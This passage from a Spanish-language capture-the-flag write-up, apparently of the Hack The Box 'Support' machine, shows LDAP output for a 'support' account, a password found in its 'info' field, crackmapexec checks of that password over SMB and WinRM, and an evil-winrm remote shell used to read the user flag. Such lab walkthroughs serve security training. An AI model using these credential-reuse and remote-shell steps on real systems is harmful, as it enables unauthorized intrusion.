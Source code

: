 ```bash wrap=false 
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
```

## Explotación

En el campo `info` parece haber una contraseña `Ironside47pleasure40Watchful`. Vamos a ver si es válido y que podemos hacer:

```bash wrap=false
❯ crackmapexec smb 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.174    445    DC               [+] support.htb\support:Ironside47pleasure40Watchful 
❯ crackmapexec winrm 10.10.11.174 -u 'support' -p 'Ironside47pleasure40Watchful'
SMB         10.10.11.174    5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb)
HTTP        10.10.11.174    5985   DC               [*] http://10.10.11.174:5985/wsman
WINRM       10.10.11.174    5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```

Vamos a obtener una consola:

```bash wrap=false
❯ evil-winrm -u 'support' -p 'Ironside47pleasure40Watchful' -i 10.10.11.174
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support
*Evil-WinRM* PS C:\Users\support> cd Desktop
*Evil-WinRM* PS C:\Users\support\Desktop> dir


    Directory: C:\Users\support\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---        10/11/2025   2:18 PM             34 user.txt


*Evil-WinRM* PS C:\Users\support\Desktop> type user.txt
6fa53032c77574ae4b9...
```
